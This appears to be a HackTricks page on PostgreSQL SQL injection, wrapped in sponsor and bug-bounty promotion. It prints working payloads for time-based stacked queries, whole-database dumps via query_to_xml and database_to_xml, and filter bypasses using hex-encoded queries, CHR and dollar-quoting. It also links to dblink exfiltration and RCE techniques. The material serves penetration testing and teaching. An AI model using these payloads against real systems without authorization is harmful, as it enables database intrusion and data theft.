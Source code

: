 # PostgreSQL injection

<details>

<summary><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ HackTricks LIVE Twitch</strong></a> <strong>Wednesdays 5.30pm (UTC) 🎙️ -</strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

<img src="../../../.gitbook/assets/i3.png" alt="" data-size="original">\
**Bug bounty tip**: **sign up** for **Intigriti**, a premium **bug bounty platform created by hackers, for hackers**! Join us at [**https://go.intigriti.com/hacktricks**](https://go.intigriti.com/hacktricks) today, and start earning bounties up to **$100,000**!

{% embed url="https://go.intigriti.com/hacktricks" %}

***

**This page aims to explain different tricks that could help you to exploit a SQLinjection found in a postgresql database and to compliment the tricks you can find on** [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)

## Network Interaction - Privilege Escalation, Port Scanner, NTLM challenge response disclosure & Exfiltration

**`dblink`** is a **PostgreSQL module** that offers several interesting options from the attacker point of view. It can be used to **connect to other PostgreSQL instances** of perform **TCP connections**.\
**These functionalities** along with the **`COPY FROM`** functionality can be used to **escalate privileges**, perform **port scanning** or grab **NTLM challenge responses**.\
[**You can read here how to perform these attacked.**](network-privesc-port-scanner-and-ntlm-chanllenge-response-disclosure.md)

### **Exfiltration example using dblink and large objects**

You can [**read this example**](dblink-lo\_import-data-exfiltration.md) to see a CTF example of **how to load data inside large objects and then exfiltrate the content of large objects inside the username** of the function `dblink_connect`.

## PostgreSQL Attacks: Read/write, RCE, privesc

Check how to compromise the host and escalate privileges from PostgreSQL in:

{% content-ref url="../../../network-services-pentesting/pentesting-postgresql.md" %}
[pentesting-postgresql.md](../../../network-services-pentesting/pentesting-postgresql.md)
{% endcontent-ref %}

## WAF bypass

### PostgreSQL String functions

Manipulating strings could help you to **bypass WAFs or other restrictions**.\
[**In this page** ](https://www.postgresqltutorial.com/postgresql-string-functions/)**you can find some useful Strings functions.**

### Stacked Queries

Remember that postgresql support stacked queries, but several application will throw an error if 2 responses are returned when expecting just 1. But, you can still abuse the stacked queries via Time injection:

```
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```

### XML tricks

**query\_to\_xml**

This function will return all the data in XML format in just one file. It's ideal if you want to dump a lot of data in just 1 row:

```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```

**database\_to\_xml**

This function will dump the whole database in XML format in just 1 row (be careful if the database is very big as you may DoS it or even your own client):

```sql
SELECT database_to_xml(true,true,'');
```

### Strings in Hex

If you can run **queries** passing them **inside a string** (for example using the **`query_to_xml`** function). **You can use the convert\_from to pass the string as hex and bypass filters this way:**

{% code overflow="wrap" %}
```sql
select encode('select cast(string_agg(table_name, '','') as int) from information_schema.tables', 'hex'), convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573', 'UTF8');

# Bypass via stacked queries + error based + query_to_xml with hex
;select query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,'')-- -h

# Bypass via boolean + error based + query_to_xml with hex
1 or '1' = (query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,''))::text-- -
```
{% endcode %}

### Forbidden quotes

If cannot use quotes for your payload you could bypass this with `CHR` for basic clauses (_character concatenation only works for basic queries such as SELECT, INSERT, DELETE, etc. It does not work for all SQL statements_):

```
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```

Or with `$`. This queries return the same results:

```
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```

<img src="../../../.gitbook/assets/i3.png" alt="" data-size="original">\
**Bug bounty tip**: **sign up** for **Intigriti**, a premium **bug bounty platform created by hackers, for hackers**! Join us at [**https://go.intigriti.com/hacktricks**](https://go.intigriti.com/hacktricks) today, and start earning bounties up to **$100,000**!

{% embed url="https://go.intigriti.com/hacktricks" %}

<details>

<summary><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ HackTricks LIVE Twitch</strong></a> <strong>Wednesdays 5.30pm (UTC) 🎙️ -</strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
